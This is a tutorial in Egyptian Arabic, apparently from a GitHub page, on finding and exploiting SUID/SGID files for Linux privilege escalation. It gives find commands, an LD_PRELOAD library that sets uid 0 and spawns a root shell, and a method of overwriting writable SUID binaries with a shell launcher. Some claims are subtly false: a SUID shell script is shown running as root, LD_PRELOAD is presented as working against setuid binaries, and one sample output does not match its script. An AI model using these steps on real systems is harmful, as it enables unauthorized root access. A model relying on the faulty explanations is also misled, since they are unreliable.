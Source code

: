 ## 🔥 **SUID / SGID - فهم أعمق مع استغلال عملي**

هنغطي هنا:  
✅ **إزاي SUID و SGID بيشتغلوا فعليًا؟**  
✅ **طرق البحث عنهم في النظام باستخدام أوامر عملية**  
✅ **كل الطرق اللي تقدر تستغل بيها ملفات SUID و SGID**  
✅ **تشغيل أكواد استغلال فعلية لرفع الصلاحيات**

---

## 🛠 **1. SUID و SGID - شرح عملي مع تجارب**

### 📌 **SUID (Set User ID) - يعني إيه عمليًا؟**

لما يكون `SUID` متفعّل على ملف تنفيذي، فمعناه إن أي حد يشغّله **هيتنفذ بصلاحيات مالك الملف بدل من صلاحيات المستخدم العادي**.

#### 🔥 **تجربة عملية - إنشاء ملف SUID**

هنعمل ملف بسيط ونشوف الفرق قبل وبعد إضافة `SUID`:

```bash
# إنشاء ملف تنفيذي بسيط
echo -e '#!/bin/bash\necho "User: $(whoami)"' > suid_test.sh
chmod +x suid_test.sh

# تشغيله كمستخدم عادي
./suid_test.sh
```

**المخرجات هتكون:**

```bash
User: user  # بيتنفذ بصلاحيات المستخدم العادي
```

#### ✅ **إضافة SUID**

هنغيّر ملكية الملف ونضيف `SUID`:

```bash
sudo chown root:root suid_test.sh
sudo chmod u+s suid_test.sh
ls -l suid_test.sh
```

**المخرجات:**

```bash
-rwsr-xr-x 1 root root 20 Mar 24 00:00 suid_test.sh
```

لاحظ الحرف `s` في التصاريح (`rwsr-xr-x`)، ده معناه إن `SUID` مفعّل.

#### 🚀 **تشغيله بعد إضافة SUID**

```bash
./suid_test.sh
```

**المخرجات هتكون:**

```bash
User: root  # رغم إننا مشغلينه بمستخدم عادي، اشتغل بصلاحيات root!
```

### 🔥 **SGID (Set Group ID) - يعني إيه عمليًا؟**

نفس فكرة `SUID`، لكن بدل ما الملف يتنفذ بصلاحيات مالك الملف، بيتنفذ بصلاحيات **المجموعة المالكة للملف**.

#### ✅ **إضافة SGID على ملف**

```bash
sudo chown root:staff suid_test.sh
sudo chmod g+s suid_test.sh
ls -l suid_test.sh
```

**المخرجات:**

```bash
-rwxr-sr-x 1 root staff 20 Mar 24 00:00 suid_test.sh
```

الحرف `s` في `rwxr-sr-x` معناه إن `SGID` مفعّل.

#### 🚀 **تشغيله بعد إضافة SGID**

```bash
./suid_test.sh
```

**المخرجات:**

```bash
Group: staff  # الملف اتنفذ بصلاحيات المجموعة staff
```

---

### 🟢 **💡 الخلاصة (بالمصري)**

- `SUID` بيخلي أي ملف تنفيذي يشتغل بصلاحيات **صاحب الملف** مش المستخدم اللي شغّله.
- `SGID` بيخلي أي ملف يشتغل بصلاحيات **المجموعة المالكة** للملف.
- لو لقيت ملف عنده `SUID` ومتملّك لـ `root`، تقدر تحاول تستغله عشان تاخد صلاحيات `root`.

---

## 🔎 **2. البحث عن ملفات SUID و SGID في النظام**

### ✅ **البحث عن كل ملفات SUID في النظام**

```bash
find / -type f -perm -u+s 2>/dev/null
```

**دي بتدور على كل الملفات اللي عندها `SUID` مفعّل.**

### ✅ **البحث عن كل ملفات SGID في النظام**

```bash
find / -type f -perm -g+s 2>/dev/null
```

**دي بتدور على كل الملفات اللي عندها `SGID` مفعّل.**

### ✅ **البحث عن ملفات SUID أو SGID مع تفاصيل التصاريح**

```bash
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```

**هيعرض كل الملفات مع التصاريح بتاعتها عشان تشوف بسهولة إيه اللي ممكن يكون قابل للاستغلال.**

### ✅ **البحث عن ملفات SUID/SGID لمستخدم معين (مثلاً root)**

```bash
find / -user root -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```

**دي بتدور على أي ملف SUID أو SGID مملوك لـ `root`.**

---

### 🟢 **💡 الخلاصة (بالمصري)**

- استخدم `find` عشان تدور على الملفات اللي ممكن تستغلها.
- ركّز على الملفات اللي مملوكة لـ `root`، لأنها ممكن تديك صلاحيات `root`.
- دايمًا شوف التصاريح بتاعت الملفات (`ls -l`) عشان تتأكد إنها قابلة للاستغلال.

---

## 🚀 **3. كل الطرق الممكنة لاستغلال ملفات SUID**

لو لقيت ملف `SUID` مملوك لـ `root`، عندك كذا طريقة للاستغلال:

### 🔥 **1. تشغيل شيل مباشرة**

لو الملف بيديك **شيل (`shell`) تفاعلي**، ممكن تعمل الآتي:

```bash
/path/to/suid_binary
whoami
```

لو `whoami` رجّع `root`، يبقى الاختراق ناجح.

### 🔥 **2. تشغيل أمر معين بصلاحيات `root`**

بعض ملفات `SUID` بتسمح لك تنفّذ أوامر:

```bash
/path/to/suid_binary -c "id"
```

**لو الأمر اتنفذ بصلاحيات `root`، يبقى فيه استغلال.**

### 🔥 **3. تعديل متغيرات البيئة (`LD_PRELOAD`)**

لو الملف بيستخدم مكتبة ديناميكية، ممكن نحط مكتبة احنا عاملينها ونحصل على `root`:

```bash
echo -e '#include <stdio.h>\n#include <stdlib.h>\nvoid _init() { setgid(0); setuid(0); system("/bin/sh"); }' > exploit.c
gcc -shared -o exploit.so -fPIC exploit.c
LD_PRELOAD=./exploit.so /path/to/suid_binary
```

ده هيشغّل `shell` بصلاحيات `root`.

### 🔥 **4. استغلال الملفات القابلة للكتابة**

لو الملف عنده `SUID` **لكنه قابل للتعديل (`writable`)**، ممكن تعدّل عليه وتضيف كود تشغيل `sh`.

```bash
echo -e '#!/bin/bash\n/bin/bash' > /path/to/suid_binary
chmod +x /path/to/suid_binary
/path/to/suid_binary
```

---

### 🟢 **💡 الخلاصة (بالمصري)**

- جرب تشغل الملف وتشوف صلاحياتك (`whoami`).
- لو بيقبل أوامر، جرب `id` أو `bash`.
- استخدم **`LD_PRELOAD`** لو الملف بيستخدم مكتبات ديناميكية.
- لو الملف قابل للكتابة، عدّله وخليه يفتح `sh`.

🔥 **كده عندك كل الطرق الممكنة لاستغلال SUID و SGID ورفع الصلاحيات!**